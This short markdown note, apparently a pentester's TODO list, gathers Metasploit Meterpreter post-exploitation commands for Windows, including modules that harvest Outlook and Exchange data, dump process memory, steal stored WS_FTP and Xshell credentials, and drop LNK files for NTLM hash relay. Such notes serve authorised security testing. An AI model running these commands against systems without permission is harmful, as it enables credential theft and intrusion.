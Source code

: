 # Meterpreter Scripts and Modules (TODO)

https://github.com/rapid7/metasploit-framework/tree/master/documentation (refer to this)

## Windows Gather Modules

run post/windows/manage/powershell/load_script

run post/windows/manage/powershell/build_net_code

run post/windows/gather/memory_grep (find specific strings in the process ID)

run post/windows/gather/outlook (https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/outlook.ps1)

run post/windows/gather/exchange (https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/exchange.ps1 && https://news.sophos.com/en-us/2021/03/09/sophoslabs-offensive-security-releases-post-exploitation-tool-for-exchange/ && https://github.com/sophoslabs/metasploit_gather_exchange)

=========

```
meterpreter > run post/windows/gather/dumplinks (dump shortcut lnk files)

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/dumplinks.md
```
=========

```
meterpreter > run post/windows/escalate/droplnk (NTLM hash relay)
```

```
msf > use post/multi/gather/check_malware

set apikey <virustotal_api_key>

set session <session_ID>

set remotefile <drive_letter>:\\path\\to\\remote\\artifact.exe

set remotefile /path/to/remote/artifact

run
```

======================

run post/windows/gather/ad_to_sqlite

run post/windows/gather/credentials/wsftp_client

run post/windows/gather/avast_memory_dump

run post/windows/gather/credentials/xshell_xftp_password

